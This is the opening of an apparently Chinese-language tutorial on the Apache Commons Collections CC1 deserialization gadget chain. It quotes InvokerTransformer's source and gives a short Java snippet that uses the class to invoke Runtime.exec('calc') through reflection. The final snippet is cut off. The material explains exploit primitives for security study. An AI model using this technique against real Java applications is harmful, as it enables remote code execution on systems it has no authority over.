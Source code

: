 ## 分析

### Transformer数组构造

InvokerTransformer类是执行恶意代码的核心类

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);  
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

它的`transform`方法存在反射调用，当输入参数可控，就可以利用它来执行命令

例如：

```java
public class cc1_test {
    public static void main(String[] args) {
        Runtime runtime = Runtime.getRuntime();
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);
    }
}
```

相当于执行了

```java
Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")
```
